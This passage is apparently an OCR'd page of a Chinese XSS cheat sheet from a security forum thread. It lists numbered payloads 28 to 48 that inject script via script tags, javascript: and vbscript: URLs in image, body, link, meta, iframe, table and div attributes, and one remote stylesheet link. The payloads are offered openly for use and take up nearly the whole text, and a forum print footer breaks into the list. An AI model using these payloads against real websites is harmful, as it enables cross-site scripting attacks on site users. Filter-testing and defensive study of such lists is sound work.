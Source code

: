 ```

(28)无单引号 双引号 分号
<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>

(29)换码过滤的 JavaScript
\";alert('XSS');//

(30)结束 Title 标签
</TITLE><SCRIPT>alert("XSS");</SCRIPT>

(31)Input Image
<INPUT SRC="javascript:alert('XSS');">

(32)BODY Image
<BODY BACKGROUND="javascript:alert('XSS')">

(33)BODY 标签
<BODY('XSS')>

(34)IMG Dynsrc
<IMG DYNSRC="javascript:alert('XSS')">

(35)IMG Lowsrc
<IMG LOWSRC="javascript:alert('XSS')">

(36)BGSOUND
<BGSOUND SRC="javascript:alert('XSS');">

(37)STYLE sheet
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">

(38)远程样式表
<LINK REL="stylesheet" HREF="http://3w.org/xss.css">

(39)List-style-image(列表式)
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS

(40)IMG VBscript
<IMG SRC='vbscript:msgbox("XSS")'></STYLE><UL><LI>XSS

(41)META 链接 url
<META HTTP-EQUIV="refresh" CONTENT="0;URL=http://;URL=javascript:alert('XSS');">

(42)Iframe
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>

(43)Frame
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>12-7-1 T00LS - Powered by Discuz!
Boardhttps://www.a.com/viewthread.php?action=printable&tid=15267 3/6

(44)Table
<TABLE BACKGROUND="javascript:alert('XSS')">

(45)TD
<TABLE><TD BACKGROUND="javascript:alert('XSS')">

(46)DIV background-image
<DIV STYLE="background-image: url(javascript:alert('XSS'))">

(47)DIV background-image 后加上额外字符(1-32&34&39&160&8192-8&13&12288&65279)
<DIV STYLE="background-image: url(javascript:alert('XSS'))">

(48)DIV expression
```